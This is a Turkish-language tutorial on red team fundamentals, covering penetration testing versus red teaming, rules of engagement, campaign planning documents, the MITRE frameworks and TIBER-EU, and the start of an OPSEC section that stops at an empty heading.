# Kırmızı Takım Temelleri

## Kırmızı Takım Nedir?

Kırmızı takım, bir şirketin veya bir kurumun izinli bir şekilde güvenlik açıklarını bulmaya çalışıp bu açıkların kapatılmasını sağlayan bir ekiptir. Mavi takım ise kurumdaki servislerin vb. güvenliğini sağlayan(IDS, IPS, WAF vs.) ekiptir.

## Güvenlik Açığı Değerlendirmeleri (Vulnerability Assessment)

Bir güvenlik açığı değerlendirmesi, güvenlik açıklarının tespit edilebilmesi ve ağın öncelikli bir şekilde korunması için etkili güvenlik önlemlerinin uygulanabilmesi, ana bilgisayarları bireysel varlıklar olarak güvenlik açıklarına karşı taramaya odaklanır. İşin çoğu otomatik araçlarla yapılabilmekte ve operatörler tarafından çok fazla teknik bilgi gerektirmeden gerçekleştirilebilmektedir.

## Penetrasyon(Sızma) Testleri (Penetration Tests)

Penetrasyon testleri, pentester'ın aşağıdakileri içeren ek adımlar uygulayarak bir saldırganın genel ağ üzerindeki etkisini keşfetmesine olanak tanıyarak güvenlik açığı değerlendirmelerine katkıda bulunur:

+ Her sistemde bulunan güvenlik açıklarından yararlanmaya çalışır. Bazen bir sistemde bir güvenlik açığı bulunabileceğinden bu önemlidir, ancak mevcut telafi edici kontroller bu güvenlik açığının kötüye kullanılmasını etkili bir şekilde önler. Ayrıca, tespit edilen güvenlik açıklarını belirli bir ana bilgisayarın güvenliğini tehlikeye atmak için kullanıp kullanamayacağımızı test etmemize de olanak tanır.

+ Güvenliği ihlal edilmiş herhangi bir ana bilgisayar üzerinde sömürme sonrası(post-exploitation) görevleri gerçekleştirerek, onlardan herhangi bir yararlı bilgi alıp alamayacağımızı veya bunları, bulunduğumuz yerden daha önce erişilemeyen diğer ana bilgisayarlara yönlendirmek için kullanıp kullanamayacağımızı bulmamıza olanak tanır.

Penetrasyon testleri, normal bir güvenlik açığı değerlendirmesi gibi güvenlik açıklarını tarayarak başlayabilir ancak bir saldırganın belirli hedeflere ulaşmak için güvenlik açıklarını nasıl birlikte kullanabileceği hakkında daha fazla bilgi sağlar. Odak noktası güvenlik açıklarını belirlemeye ve ağı korumak için önlemler oluşturmaya devam ederken, aynı zamanda ağı bütün bir ekosistem olarak bir saldırganın bileşenleri arasındaki etkileşimlerden nasıl kâr elde edebileceğini de ele alıyor.

## APT(Advanced Persistent Threats) ve Sıradan Penetrasyon Testleri

Geleneksel penetrasyon testleri, çoğu teknik güvenlik açıklarının bulunmasını sağlasa da sahip olduğu kısıtlamalar nedeniyle kurumu gerçek bir hacker'a karşı ne ölçüde koruyabileceği belli değildir. Bu kısıtlamalardan bazıları aşağıdakilerdir :

+ Zaman Kısıtlamaları
+ Bütçe
+ Sınırlı Faaliyet Alanı(Scope)
+ Teknik Olmayan Atak Vektörlerinin Test Edilmemesi veya Devre Dışı Bırakılması(Scope'da olmayan)

Bundan dolayı, bir pentester'ın kuruma yaklaşımı ile gerçek bir hacker'ın kuruma yaklaşımı aynı olmayacaktır. Bariz bir örnek olarak, gerçek bir hacker kurumun ağındaki tüm bilgisayarları tarayamaz çünkü firewall, IDS ve IPS devreye girebilir. Bu yüzden daha sessiz olmalıdır. Öte yandan bir pentester bunları umursamaz ve kendisine kurum tarafından anlaşma sağlandığı için ne kadar ses yaparsa yapsın, IDS, IPS veya firewall gibi güvenlik yazılımlarına yakalanmayacaktır.

Günümüzde en önde gelen tehdit aktörleri, genellikle uluslar veya organize suç grupları tarafından desteklenen, yüksek vasıflı saldırgan grupları olan Gelişmiş Kalıcı Tehditler (APT) olarak biliniyor. Öncelikle kritik altyapıyı, finansal kuruluşları ve devlet kurumlarını hedef alıyorlar. Kalıcı olarak adlandırılırlar çünkü bu grupların operasyonları, güvenliği ihlal edilmiş ağlarda uzun süreler boyunca tespit edilmeden kalabilir. Örnek olarak bir zamanlar dünya genelinde konuşulan 'Pegasus' casus yazılımı.

## Kırmızı Takım Yükümlülükleri (Red Team Engagements)

Kırmızı takım, ordudan alınan bir terimdir. Askeri tatbikatlarda bir grup, genel olarak mavi takım olarak bilinen savunma ekibinin bilinen düşman stratejilerine karşı reaksiyon yeteneklerini test etmek amacıyla saldırı tekniklerini simüle etmek için kırmızı takım rolünü üstlenir. Siber güvenlik dünyasına aktarılan kırmızı takım yükümlülükleri, gerçek bir tehdit aktörünün Taktiklerini, Tekniklerini ve Prosedürlerini (TTP'ler) taklit etmekten oluşur; böylece mavi takımın bunlara ne kadar iyi yanıt verdiğini ölçebilir ve sonuçta mevcut güvenlik kontrolleri iyileştirilebilir. 

Bu tür tatbikatların nihai hedefinin hiçbir zaman kırmızı takımın mavi takımı "yenmesi" olmaması gerektiğini, bunun yerine mavi takımın devam eden gerçek bir tehdide yeterli şekilde tepki vermeyi öğrenmesi için yeterli TTP'yi simüle etmesi gerektiğini belirtmek önemlidir. Gerekirse tespit yeteneklerini geliştirmeye yardımcı olacak güvenlik kontrollerinde ince ayar yapabilir veya ekleyebilirler.

Kırmızı takım yükümlülükleri ayrıca çeşitli saldırı yüzeylerini dikkate alarak düzenli sızma testlerinde de iyileşme sağlar:

+ Teknik Altyapı: Normal bir sızma testinde olduğu gibi, kırmızı bir takım, gizlilik ve kaçınmaya daha fazla önem vererek teknik güvenlik açıklarını ortaya çıkarmaya çalışacaktır.
+ Sosyal Mühendislik: oltalama(phishing), telefon görüşmeleri veya sosyal medya aracılığıyla insanları özel olması gereken bilgileri ifşa etmeleri için kandırmak amacıyla hedef almak.
+ Fiziksel Temaslar: Tesislerin sınırlı alanlarına erişmek için kilit açma, RFID klonlama, elektronik erişim kontrol cihazlarındaki zayıflıklardan yararlanma gibi tekniklerin kullanılması.

Mevcut kaynaklara bağlı olarak kırmızı takım çalışması çeşitli şekillerde gerçekleştirilebilir:

+ Tam Yükümlülük: Bir saldırganın ilk erişiminden nihai hedeflere ulaşılıncaya kadar tüm iş akışını simüle eder.
+ Varsayılan Erişim: Saldırganın bazı varlıklar üzerinde kontrolü zaten ele geçirdiğini varsayar. Belli bir noktadan başlayıp hedeflere ulaşmaya çalışır. Örnek olarak kırmızı takım, bazı kullanıcıların kimlik bilgilerine ve hatta dahili ağdaki bir iş istasyonuna erişim sağlayabilir.
+ Masa Üstü Tatbikat: Kırmızı ve mavi takımların belirli tehditlere teorik olarak nasıl tepki vereceklerini değerlendirmek için senaryoların tartışıldığı masa üstü simülasyon. Canlı simülasyonlar yapmanın karmaşık olabileceği durumlar için idealdir.

Kırmızı Takım Yükümlülükleri 3 hücreye bölünebilir :

### Kırmızı Hücre (Red Cell)

Kırmızı hücre, belirli bir hedefin stratejik ve taktiksel tepkilerini simüle eden, kırmızı takım yükümlülüklerinin hücum bölümünü oluşturan bileşendir. Her kırmızı hücrenin kendi içinde belli kuralları ve rolleri vardır. Bazı yaygın kırmızı hücre rolleri :

#### Kırmızı Takım Lideri (Red Team Lead)

Lider yardımcısı ve operatörlerin görevlendirmeleri gibi görevleri yüksek düzeyde planlar ve düzenler.

#### Kırmızı Takım Lider Yardımcısı (Red Team Assistant Lead)

Ekip operasyonlarının ve operatörlerin denetlenmesinde ekip liderliğine yardımcı olur. Gerektiğinde görev planlarının ve dokümantasyonun yazılmasına da yardımcı olabilir.

#### Kırmızı Takım Operatörü (Red Team Operator)

Ekip liderleri tarafından verilen görevleri yerine getirir. Ekip liderlerinin yükümlülük planlarını yorumlar ve analiz eder.

### Mavi Hücre (Blue Cell)

Mavi hücre kırmızı hücrenin tersidir. Hedef ağı savunan tüm bileşenleri içerir. Mavi hücre genellikle mavi takım üyelerinden, savunma oyuncularından, iç personelden ve kuruluşun yönetiminden oluşur.

### Beyaz Hücre (White Cell)

Bir yükümlülükte kırmızı hücre faaliyetleri ile mavi hücre yanıtları arasında hakem görevi görür. Görev ortamını/ağını kontrol eder. *ROE*'ye uyumu izler. Yükümlülük hedeflerine ulaşmak için gerekli faaliyetleri koordine eder. Kırmızı hücre aktivitelerini savunma eylemleriyle ilişkilendirir. Çatışmanın her iki tarafa da önyargı olmadan yürütülmesini sağlar.

ROE (Rules of Engagement) : *Yükümlülük Kuralları, penetrasyon testçisine izin veren, görevin geçerli olduğu hedefleri ve uygulayacağı davranışları/teknikleri tanımlayan bir belgedir.*

## Kapsamlar ve Hedeflerin Tanınması (Scopes and Objectives)

Bir penetrasyon testinde testi yaptığımız kurumun bize verdiği kapsamları kesinlikle dikkate almamız gerekir. Eğer bir kapsamda DDOS saldırılarına izin verilmeyecek şeklinde bir ibare varsa buna uyup herhangi bir DDOS saldırısı yapmamamız gerekir.

Bir penetrasyon testinde testi yaptığımız kurumun bize verdiği hedefleri dikkate alıp bu hedefler yönünde taramalarımızı ve saldırılarımızı gerçekleştirmeliyiz ki kurumun bizden beklediği de budur. Örnek bir kapsam örneği :

    Scopes:

        No exfiltration of data.

        Production servers are off-limits.

        10.0.3.8/18 is out of scope.

        10.0.0.8/20 is in scope.

        System downtime is not  permitted 
        under any circumstances.

        Exfiltration of PII is prohibited.

Örnek bir hedef örneği :

    Objectives:

        Identify system misconfigurations and network weaknesses.
        
            Focus on exterior systems.

        Determine the effectiveness of endpoint detection and response systems.

        Evaluate overall security posture and response.

            SIEM and detection measures.

            Remediation.
            
            Segmentation of DMZ and internal servers.

        Use of white cards is permitted depending on downtime and length.

        Evaluate the impact of data exposure and exfiltration.

## Yükümlülük Kuralları (Rules of Engagement RoE)

Katılım Kuralları (RoE), her iki taraf arasındaki yükümlülük beklentilerine ilişkin daha ayrıntılı bilgi içeren, müşteri hedeflerinin ve kapsamının yasal olarak bağlayıcı bir taslağıdır. Bu, görev planlama sürecindeki ilk "resmi" belgedir ve müşteri ile kırmızı ekip arasında uygun yetkilendirmeyi gerektirir. Bu belge genellikle iki taraf arasındaki genel sözleşme görevi görür; harici bir sözleşme veya diğer NDA(Non-Disclosure Agreement)'lar (Gizlilik Anlaşması) da kullanılabilir.

RoE'nin formatı ve metni, yasal olarak bağlayıcı bir sözleşme olması ve net beklentiler belirlemesi nedeniyle kritik öneme sahiptir.

Her bir RoE yapısı müşteri ve kırmızı ekip tarafından belirlenecektir ve içerik uzunluğu ve genel bölümler açısından farklılık gösterebilir. Aşağıda RoE'de görebileceğiniz standart bölümlerin açıklaması verilmiştir.

+ Executive Summary

RoE belgesindeki tüm içeriklerin ve yetkilendirmenin kapsamlı özeti

+ Purpose

RoE belgesinin neden kullanıldığını tanımlar

+ References

RoE belgesi boyunca kullanılan tüm referanslar (HIPAA, ISO, vb.)

+ Scope	

Kısıtlamalara ve yönergelere ilişkin anlaşma beyanı

+ Definitions

RoE belgesinde kullanılan teknik terimlerin tanımları

+ Rules of Engagement and Support Agreement	

Her iki tarafın yükümlülüklerini ve görevin yürütülmesine ilişkin genel teknik beklentileri tanımlar

+ Provisions

Yükümlülük kurallarından istisnaları ve ek bilgileri tanımlar

+ Requirements, Restrictions, and Authority

Kırmızı takım hücresinin spesifik beklentilerini tanımlar

+ Ground Rules	

Kırmızı takım hücresinin etkileşimlerinin sınırlamalarını tanımlar

+ Resolution of Issues/Points of Contact

Bir yükümlülükte yer alan tüm önemli personeli içerir

+ Authorization	

Görev için yetki beyanı

+ Approval 	

Belgenin tüm alt bölümlerini onaylayan her iki tarafın imzaları

+ Appendix	

Alt bölümlerden daha fazla bilgiler içerir

Belgeyi incelerken bunun yalnızca bir özet olduğunu ve amacının hukuki bir belge olmak olduğunu unutmamak önemlidir. Özkaynakların ve müşteri hedeflerinin genişletilmesi için geleceğe yönelik ve daha derinlemesine planlama yapılması gerekmektedir.

Örnek bir RoE :



    (TryHackMe'den alınmıştır.)

## Mücadele Planlanması (Campaign Planning)

Mücadele planlaması, müşteri hedeflerinden ve öz sermayeden elde edilen ve planlanan bilgileri kullanır ve kırmızı ekibin nasıl ve ne yapacağını belirlemek için bunu çeşitli planlara ve belgelere uygular.

Her kırmızı takımın kendine özel planlaması vardır. Örnek bir mücadele planlamasını inceleyeceğiz. Bu planlama güzel bir iletişim ve ayrıntılı döküman yayınlamamıza olanak tanıyan bir planlama seti olacaktır.

Plan setimiz aşağıdaki planlardan oluşuyor :

### Yükümlülük Planı (Engagement Plan)

Kırmızı takımın teknik gereksinimlerinin kapsamlı bir planlamasıdır. İçeriği CONOPS, Kaynak ve Personel İhtiyacı ve Zaman planlamasından oluşur.

#### CONOPS (Concept of Operations) (Operasyonların Konsepti)

Kırmızı takımın, müşteri hedeflerine ulaşma sürecini anlatan teknik olmayan bir yazıdır. Belli bir standartı yoktur ama aşağıdaki bilgileri içermelidir :

+ Müşteri Adı
+ Servis Sağlayıcısı
+ Zaman Aralığı
+ Genel Hedefler/Aşamalar
+ Diğer Hedefler (Sızma)
+ Kullanılması Planlanan Üst Seviye Araçlar / Teknikler
+ Simüle edilecek tehdit grubu (varsa)

Örnek bir CONOPS :



    (TryHackMe'den alınmıştır.)

#### Kaynak Planı (Resource Plan)

Kırmızı takımın başarılı olması için gerekli bilgi, kaynak ihtiyaçları(personel, donanım, bulut vb.) ve zaman çizelgesini içerir. Kaynak Planı listelerin alt listeleri olacak şekilde yazılmaktadır. Belli bir standartı yoktur. Aşağıda örnek bir kaynak planı yazılmıştır :

    Başlık
        Yazan Personel
        Tarihler
        Müşteri

    Yükümlülük Tarihleri
        Keşif Tarihleri
        İlk Etkileşim Tarihleri
        Sömürü Sonrası ve Kalıcılık Sağlanması Tarihleri
        Çeşitli Şeyler Tarihi

    Gerekli Bilgiler (Opsiyonel)
        Keşif için
        İlk Etkileşim için
        Sömürü Sonrası için

    Gerekli Kaynaklar
        Personel
        Donanım
        Bulut
        Çeşitli

Örnek bir kaynak planı :



    (TryHackMe'den Alınmıştır.)

### Operasyonlar Planı (Operations Plan)

Yükümlülük planının genişletilmesidir. Her ayrıntının daha derine inilmesidir. İçeriği operatörler, bilinen bilgiler, sorumluluklar vb.'den oluşur. Yazım tipi kaynaklar planına benzer. Belli bir standartı yoktur. Aşağıda örnek bir taslak verilmiştir :

    Başlık
        Yazan Personel
        Tarihler
        Müşteri

    Yükümlülüğü Durdurma Durumları (RoE'ye de yazılabilir.)

    Gerekli Personeller

    Planlanan Spesifik TTP'ler ve Ataklar

    İletişim Planı

    RoE (opsiyonel)

Önemli bir not olarak bu planda yer alan iletişim planı oldukça önemlidir. İletişim planı ile kırmızı hücrenin diğer hücrelerle ve müşteriyle nasıl iletişime geçeceği belirtilir. Aşağıda iletişim için kullanılabilecek bazı opsiyonlar yer almaktadır :

+ vectr.io
+ Email
+ Slack

Örnek bir Operasyonlar Planı :



    (TryHackMe'den alınmıştır.)

#### Personel (Personnel)

Çalışan gereksinimleri hakkında bilgi içerir.

#### Durdurma Durumu (Stopping Conditions)

Yükümlülük sırasında kırmızı takımın nasıl ve neden duracağını içeren bilgi.

#### Teknik Gereksinim (Technical Requirements)

Kırmızı takımın başarılı olabilmesi için gerekli bilgi.

#### RoE (opsiyonel)

### Görev Planı (Mission Plan)

Yükümlülükte çalıştırılacak komutlar ve çalıştırılma zamanından oluşur. Bu plan, önceki planlardaki verileri kullanarak aksiyonlar uygular. İçeriği çalıştırılacak komutlar, zaman hedefleri, sorumlu operatör vb.'den oluşur.

Bu planın yazılma ve detaylandırma işlemi takıma bağlıdır.Bu dahili olarak kullanılan bir belge olduğundan, yapı ve ayrıntıların etkisi daha az olur. Bu plana yazılabilecek minimum detaylar aşağıdaki gibidir :

+ Amaçlar
+ Operatörler
+ Sömürüler / Saldırılar
+ Hedefler
+ Çalıştırma plan varyasyonları

İki plan da benzer şekilde düşünülebilir; operasyon planı iş ve müşteri perspektifinden değerlendirilmeli, görev planı operatör ve kırmızı hücre perspektifinden düşünülmelidir.

Örnek bir görev planı :



    (TryHackMe'den alınmıştır.)

#### Komut ElKitabı (Command Playbooks) (opsiyonel)

Çalıştırılan komutlar ve araçlar, ne/ne zaman/nasıl çalıştırıldığını içeren bilgi.

#### Çalıştırılma Zamanları (Execution Times)

Yükümlülük aşamalarının başlama zamanı. İsteğe bağlı olarak araçları ve komutları yürütmek için tam zamanları içerebilir.

#### Sorumluluk ve Roller (Responsibilities / Roles)

Kimin neyi ne zaman yaptığı.

### İyileştirme Planı (Remediation Plan)

Mücadele bittikten sonra yükümlülüğün nasıl ilerleyeceğini tanımlar. İçeriği rapor, iyileştirme danışması vb.'den oluşur.

#### Rapor (Report)

Yükümlülük detayları sonucu ve tespit edilenlerin raporu.

#### İyileştirme Danışması (Remediation Consultation)

Müşteri, bulunan açıkları nasıl kapatıcak? Raporda bulunabilir veya müşteri ile yapılan bir meeting'de tartışılabilir.

## Kırmızı Takım Tehdit İstihbaratı (Red Team Threat Intelligence)

Tehdit İstihbaratı (TI) veya Siber Tehdit İstihbaratı (CTI), bir düşmana atfedilen ve savunmacılar tarafından tespit önlemlerine yardımcı olmak için yaygın olarak kullanılan bilgiler veya TTP'lerdir (Taktikler, Teknikler ve Prosedürler). Kırmızı hücre, düşmanın taklit edilmesine yardımcı olmak için CTI'yi saldırgan bir bakış açısıyla kullanabilir.

CTI(Siber Tehdit İstihbaratı), IOC'ler(Indicators of Compromise) (Etkileşim Göstergeleri) ve ISAC'ler (Information and Sharing Analysis Centers)(Bilgi ve Paylaşım Analiz Merkezleri) tarafından yaygın olarak dağıtılan ve sürdürülen TTP'ler toplanarak tüketilebilir (veriler üzerine harekete geçmek için). İstihbarat platformları ve frameworkleri de öncelikle tüm faaliyetlerin kapsayıcı bir zaman çizelgesine odaklanarak CTI tüketimine yardımcı olur.

*ISAC: Genellikle bir siber güvenlik tehdit istihbarat platformuna atıfta bulunmak için kullanılır.*

Geleneksel olarak savunmacılar, sürekli değişen tehdit ortamına uyum sağlamak ve bulguları ölçmek için tehdit istihbaratını kullanır. IOC'ler; domainler, IP'ler, dosyalar, stringler vb. gibi düşmanlar tarafından bırakılan izlerle ölçülür. Mavi ekip, algılamalar oluşturmak ve davranışı analiz etmek için çeşitli IOC'lerden yararlanabilir. Kırmızı takım perspektifinden bakıldığında, tehdit istihbaratını, kırmızı takımın, mavi takımın tespitler için CTI'dan uygun şekilde yararlanma becerisine ilişkin analizi olarak düşünebiliriz.

Kırmızı ekipler, CTI tüketmeye ve TTP'leri toplamaya yardımcı olmak için sıklıkla MITRE ATT&CK, TIBER-EU ve OST Map gibi tehdit istihbaratı platformlarını ve frameworklerini kullanır.

Bu siber frameworkler bilinen TTP'leri toplayacak ve bunları aşağıdaki gibi çeşitli özelliklere göre sınıflandıracaktır:

+ Tehdit Grubu
+ Öldürme Zinciri Aşaması
+ Taktik
+ Hedef / Amaç

Hedeflenen bir düşman seçildikten sonra amaç, seçilen düşmanla kategorize edilen tüm TTP'leri belirlemek ve bunları bilinen bir siber öldürme zinciriyle eşleştirmektir.

TTP'lerden yararlanmak, ekibin yükümlülüğü yürütmesi sırasında odaklanacağı bir şeyden ziyade bir planlama tekniği olarak kullanılır. Ekibin büyüklüğüne bağlı olarak, kırmızı ekip için TTP'leri toplamak üzere bir CTI ekibi veya tehdit istihbaratı operatörü görevlendirilebilir. Bir yükümlülüğün yürütülmesi sırasında kırmızı ekip, araçları hazırlamak, trafiği ve davranışı değiştirmek ve hedeflenen düşmanı taklit etmek için tehdit istihbaratını kullanacak.

Genel olarak kırmızı takım, toplanan TTP'ler ve IOC'ler aracılığıyla düşmanların davranışlarını analiz etmek ve taklit etmek için tehdit istihbaratını kullanıyor.

### TIBER-EU Framework

TIBER-EU (Threat Intelligence-based Ethical Red Teaming)(Tehdit İstihbaratına Dayalı Etik Kırmızı Takım), Avrupa Merkez Bankası tarafından geliştirilen ve tehdit istihbaratının kullanımına odaklanan ortak bir çerçevedir.

ECB TIBER-EU teknik incelemesinden, "Tehdit İstihbaratına Dayalı Etik Kırmızı Ekip Framework'ü (TIBER-EU), Avrupalı ​​ve ulusal otoritelerin finansal altyapılar ve kurumlarla birlikte çalışmasına olanak tanır. Gelişmiş siber saldırılara karşı dayanıklılıklarını test etmek ve geliştirmek için bir program yerleştirir."

Bu framework ile diğerleri arasındaki temel fark, kırmızı ekibin testine yardım etmek için tehdit istihbaratını gerektiren "Test" aşamasıdır.

Bu framwork, kırmızı takım perspektifinden eyleme geçirilebilecek herhangi bir şeyden ziyade en iyi pratik uygulamayı kapsar.



    TryHackMe'den alınmıştır.

### MITRE

Siber güvenlik alanında yeni olanlar, muhtemelen MITRE'yi hiç duymamışlardır. MITRE'yi CVE'ler(Common Vulnerabilities and Exposures) (Ortak Güvenlik Açıkları ve Etkilenmeler) listesiyle ilişkilendirebilir; bu, belirli bir güvenlik açığı için bir istismar ararken muhtemelen kontrol edeceğimiz kaynaklardan biridir. Ancak MITRE, 'ülkemizin güvenliği, istikrarı ve refahı' için siber güvenliğin dışında birçok alanda araştırma yapıyor. Bu alanlar arasında yapay zeka, sağlık bilişimi, uzay güvenliği gibi alanlar yer alıyor.

Mitre.org'dan: "MITRE'de sorunları daha güvenli bir dünya için çözüyoruz. Federal olarak finanse edilen Ar-Ge merkezlerimiz ve kamu-özel sektör ortaklıklarımız aracılığıyla, ulusumuzun güvenliği, istikrarı ve refahına yönelik zorlukların üstesinden gelmek için hükümet genelinde çalışıyoruz."

ABD merkezli kar amacı gütmeyen MITRE Corporation'ın siber güvenlik topluluğu için oluşturduğu diğer projelere/araştırmalara odaklanacağız, özellikle:

+ ATT&CK® (Adversarial Tactics, Techniques, and Common Knowledge) (Düşmanca Taktikler, Teknikler ve Ortak Bilgi) Framework
+ CAR (Cyber Analytics Repository) Knowledge Base (Siber Analitik Havuzu Bilgi Havuzu)
+ ENGAGE (süslü bir kısaltma değil.)
+ D3FEND (Detection, Denial, and Disruption Framework Empowering Network Defense) (Ağ Savunmasını Güçlendiren Tespit, Reddetme ve Kesinti)
+ AEP (ATT&CK Emulation Plans) (ATT&CK Emülasyon Planları)

#### ATT&CK Framework

ATT&CK® framework nedir? Web sitesine göre, "MITRE ATT&CK®, gerçek dünya gözlemlerine dayanan, küresel olarak erişilebilen, düşman taktikleri ve tekniklerine ilişkin bir bilgi tabanıdır." 2013 yılında MITRE, APT (Gelişmiş Kalıcı Tehdit) gruplarının kurumsal Windows ağlarına karşı kullandığı ortak TTP'leri (Taktikler, Teknikler ve Prosedürler) kaydetme ve belgeleme ihtiyacını karşılamaya başladı. Bu, FMX (Fort Meade Deneyi) olarak bilinen dahili bir projeyle başladı. Bu proje kapsamında seçilen güvenlik uzmanlarına, bir ağa karşı düşman TTP'leri taklit etme görevi verildi ve bu ağdaki saldırılardan veriler toplandı. Toplanan veriler, bugün ATT&CK® framework olarak bildiğimiz yapının başlangıç ​​parçalarının oluşturulmasına yardımcı oldu.

ATT&CK® framework yıllar içinde büyümüş ve genişlemiştir. Dikkate değer bir genişleme, framework'ün yalnızca Windows platformuna odaklanmış olması ancak macOS ve Linux gibi diğer platformları da kapsayacak şekilde genişlemesiydi. Framework'e, güvenlik araştırmacıları ve tehdit istihbarat raporları gibi birçok kaynak yoğun bir şekilde katkıda bulunmaktadır. Bunun yalnızca mavi takım oyuncuları için bir araç olmadığını unutmayın. Bu araç aynı zamanda kırmızı takım oyuncuları için de kullanışlıdır.

ATT&CK framework'ü kullanabilmek için websitesine gidelim : https://attack.mitre.org/



Burada 14 tane farklı kategori olduğunu görebiliriz. Her kategori, düşmanların bugüne kadar uygulamış olduğu taktikleri yapmak için uygulanması gereken teknikleri gösterir. Her kategorinin teknikleri vardır. Bazı tekniklerin de alt teknikleri mevcuttur.(Bunları tekniğin yanında bulunan gri butona basarak görebiliriz.) Teknik hakkında bilgi almak istiyorsak üstüne tıklamamız yeterli. Örneğin Active Scanning tekniği :



Ayrıca, aynı bilgiyi Navigator kullanarak görsel bir şekilde görebiliriz :



#### CAR Framework

CAR'ın (Cyber Analytics Repository) resmi tanımı şu şekildedir: "MITRE Siber Analitik Havuzu (CAR), MITRE tarafından MITRE ATT&CK® düşman modeline dayalı olarak geliştirilen bir analitik bilgi tabanıdır. CAR, sözde kod(pseudocode) temsillerinden yararlanılan ancak aynı zamanda doğrudan uygulamaları da içeren bir veri modelini tanımlar. Analitiklerinde belirli araçları (örn. Splunk, EQL) hedef alan CAR, kapsamla ilgili olarak, özellikle bunların çalışma teorisi ve mantığı açısından bir dizi doğrulanmış ve iyi açıklanmış analitik sağlamaya odaklanmıştır."

Özetlemek gerekirse, CAR, bizi ATT&CK® çerçevesindeki Azaltma ve Tespit özetlerinden daha ileriye götürecek analitikleri bulmak için harika bir yerdir. Bu araç ATT&CK®'nin yerine geçmez ancak ek bir kaynaktır.



#### ENGAGE Framework

Web sitesine göre, "MITRE Engage, düşmanlarınızla etkileşime geçmenizi ve siber güvenlik hedeflerinize ulaşmanızı sağlayan, düşman yükümlülük operasyonlarını planlamak ve tartışmak için bir frameworktür."

MITRE Engage, Düşman Yükümlülük Yaklaşımı olarak kabul edilir. Bu, Siber Reddetme ve Siber Aldatma'nın uygulanmasıyla gerçekleştirilir.

Siber Reddetme ile düşmanın operasyonlarını yürütme kabiliyetini engelliyoruz ve Siber Aldatma ile kasıtlı olarak düşmanı yanıltmak için eserler yerleştiriyoruz.

Engage web sitesi, Düşmanlarla Yükümlülük Yaklaşımına 'başlamanız' için bir başlangıç ​​seti sağlar. Başlangıç ​​seti, başlamanıza yardımcı olacak çeşitli kontrol listelerini, metodolojileri ve süreçleri açıklayan teknik incelemeler ve PDF'lerden oluşan bir koleksiyondur.

Kendine özel bir matrix'i vardır :



Bu kategorilerin her birini Engage web sitesindeki bilgilere dayanarak hızlıca açıklayalım.

+ Prepare : İstediğiniz sonuca (girdi) yol açacak operasyonel eylemler dizisi
+ Expose : Konuşlandırılan aldatma faaliyetlerinizi tetiklediğinde düşmanlarınızı açığa çıkarmak
+ Affect : Operasyonları üzerinde olumsuz etki yaratacak eylemler gerçekleştirmek
+ Elicit : Rakibi gözlemleyerek bilgi edinin ve onların işleyiş tarzı (TTP'ler) hakkında daha fazla bilgi edinin.
+ Understand : Operasyonel eylemlerin sonuçları(çıktı)

#### D3FEND Framework

D3FEND (Detection, Denial and Disruption Framework Empowering Network Defense) web sitesine göre bu kaynak, "Siber güvenlik önlemlerine ilişkin bilgi grafiği"dir.

D3FEND hala beta aşamasındadır ve NSA'nın Siber Güvenlik Direktörlüğü tarafından finanse edilmektedir.

D3FEND, Ağ Savunmasını Güçlendiren Tespit, Reddetme ve Kesinti Çerçevesi anlamına gelir.



Herhangi bir eser'e tıkladığımızda örneğin : Application Configuration Hardening;



Gördüğünüz gibi tekniğin ne olduğu (definition), tekniğin nasıl çalıştığı (how it works), tekniği uygularken dikkat edilmesi gerekenler (considerations) ve tekniğin nasıl kullanılacağı (example) hakkında bilgiler veriliyor.

#### AEP (Attack Emulation Plans)

MITRE'nin bize sağladığı bu araçlar yeterli değilse, MITRE ENGENUITY kapsamında CTID, Adversary Emulation Library ve ATT&CK® Emülasyon Planlarımız var.

MITRE, Center of Threat-Informed Defense(Tehdit Bilgili Savunma Merkezi) (CTID) adında bir organizasyon kurdu. Bu organizasyon dünyanın dört bir yanından çeşitli şirket ve satıcılardan oluşmaktadır. Amaçları siber tehditler ve bunların TTP'leri hakkında araştırma yapmak ve bu araştırmayı herkes için siber savunmayı geliştirmek amacıyla paylaşmaktır.

CTID katılımcısı firma ve bayilerden bazıları:

+ AttackIQ (kurucu)
+ Verizon
+ Microsoft (kurucu)
+ Red Canary (kurucu)
+ Splunk

Web sitesine göre, "Katılımcı kuruluşlarla birlikte, daha güvenli bir dünya için çözümler geliştiriyor ve açık kaynaklı yazılım, metodolojiler ve frameworklerle tehdit bilgili savunmayı geliştiriyoruz. MITRE ATT&CK bilgi tabanını genişleterek, çalışmalarımız küresel anlayışı genişletiyor. Düşman davranışlarının ve hareketlerinin daha iyi anlaşılması için kritik önem taşıyan veri setlerinin kamuya açıklanmasıyla siber düşmanlar ve onların ticari becerilerini azaltıyoruz."



Adversary Emulation Library(Düşman Emülasyon Kütüphanesi), düşman emülasyon planlarını mavi/kırmızı takım oyuncuları için ücretsiz bir kaynak haline getiren bir halk kütüphanesidir. Kütüphane ve emülasyonlar CTID'nin katkısıdır. Emülasyon planları, belirli tehdit grubunun nasıl taklit edileceğine ilişkin adım adım bir kılavuzdur. Eğer üst düzey yöneticilerden herhangi biri şunu sorsaydı, "APT29 bizi vurursa ne yaparız?" Bu, emülasyon planının yürütülmesinin sonuçlarına bakılarak kolayca cevaplanabilir.



### ATT&CK VS LOCKHEED MARTIN SİBER ÖLDÜRME ZİNCİRİ



## OPSEC (Operations Security) (Operasyonların Güvenliği)

Operasyonel Güvenlik (OPSEC), bir operatörün veya operasyonun güvenliğini korumaya çalışmak için kullanılan bir dizi prensip ve taktiktir. Bunun bir örneği, gerçek adlarınız yerine kod adları kullanmak veya IP adresinizi gizlemek için bir proxy kullanmak olabilir.

OPSEC'in 5 önemli adımı vardır:

+ Kritik bilgiyi belirlemek
+ Tehditlerin analiz edilmesi
+ Zaafiyetlerin analiz edilmesi
+ Riskleri belirlemek
+ Uygun karşı önlemleri uygulamak



Düşman, ağını Nmap (bizim durumumuzda mavi takım) ile taradığımızı fark ederse, kullanılan IP adresini kolayca bulabilir. Örneğin, bir phishing sitesini barındırmak için aynı IP adresini kullanırsak, mavi ekibin iki olayı birbirine bağlaması ve bunları aynı aktöre atfetmesi çok zor olmayacaktır.

OPSEC bir çözüm ya da kurallar dizisi değildir; OPSEC, düşmanların herhangi bir kritik bilgiye erişmesini engelleyen beş adımlı bir süreçtir.

### Kritik Bilgiyi Belirlemek

